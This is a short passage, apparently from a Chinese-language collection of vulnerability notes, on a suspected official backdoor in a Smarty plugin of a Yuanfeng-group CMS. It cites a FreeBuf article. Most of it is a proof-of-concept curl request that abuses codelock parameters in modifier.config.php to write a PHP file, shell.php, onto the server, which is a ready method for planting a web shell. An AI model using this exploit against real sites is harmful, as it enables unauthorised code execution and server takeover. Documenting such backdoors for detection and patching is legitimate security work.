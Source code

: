### 5.8

#### smarty 后门

参考链接

* [远丰集团旗下CMS疑有官方后门](http://www.freebuf.com/articles/web/164609.html)

Poc

```
# 请求
curl 'http://127.0.0.1/lib/smarty/plugins/modifier.config.php?codelock_filed=.&codelock_mastersize=3&codelock_act=3&codelock_enc=shell.php&codelock_masterdata=<?php+phpinfo();+?>'

# 生成
./lib/smarty/plugins/shell.php
```


